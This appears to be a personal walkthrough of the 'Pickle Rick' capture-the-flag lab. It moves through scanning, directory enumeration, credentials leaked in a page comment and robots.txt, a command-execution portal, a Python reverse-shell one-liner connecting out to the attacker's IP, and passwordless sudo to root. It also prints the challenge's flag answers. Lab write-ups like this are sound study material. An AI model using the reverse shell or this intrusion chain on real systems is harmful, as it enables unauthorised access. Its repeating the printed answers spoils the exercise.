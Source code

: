 # PICKLERICK

## IP: 10.10.93.116

### PORTS
- 22
- 80

### 80
- apache httpd 2.4.18
- comment in webpage : 
```

    Note to self, remember username!

    Username: R1ckRul3s

  
```

#### GOBuster dir medium-list
- /assets
> DEAD END

#### exploitDB
- CVE-2021-44790 
- buffer overflow for webapps
- v2.4.x
> DEAD END

#### DIRB -files-common
```
---- Scanning URL: http://10.10.93.116/ ----
==> DIRECTORY: http://10.10.93.116/assets/                                                                                                                                                   
+ http://10.10.93.116/index.html (CODE:200|SIZE:1062)                                                                                                                                        
+ http://10.10.93.116/robots.txt (CODE:200|SIZE:17)                                                                                                                                          
+ http://10.10.93.116/server-status (CODE:403|SIZE:300)        
```
- robots.txt : `Wubbalubbadubdub`

At this stage: 
- username
username is not ssh-username. maybe it is for some login page
- weird robots.txt
it might be a password

so next stage I can think of is to use `nikto` for web reckon

#### NIKTO
nikto was going very slow, I switched to dirb again and tried filtering .php and .html files

#### DIRB -files-html-php
- denied.php
redirects to login.php
- login.php
    - a login form, accepts username + password found earlier
    - redirects to portal.php
- portal.php
    - it can executes command but not all commands

### /portal.php 
```
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
```
$ grep . *
> output is in grep-res
```

- Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair -- ANSWER1
- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
    - nested base64
    - 7 levels
    - decoded: rabbit hole
- disabled cmds : "cat", "head", "more", "tail", "nano", "vim", "vi"
- clue.txt:Look around the file system for the other ingredient.

- two user: rick and ubuntu
- `grep . /home/rick/*` : jerry tear
- `ls /bin` : in binaries.txt
- nc is present
trying revshell
- nc -c my-ip port
nc had some issues, used python3
```
export RHOST="10.17.123.173";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
- sudo available without password, found /root/3rd/txt

### 3rd.txt
- fleeb juice

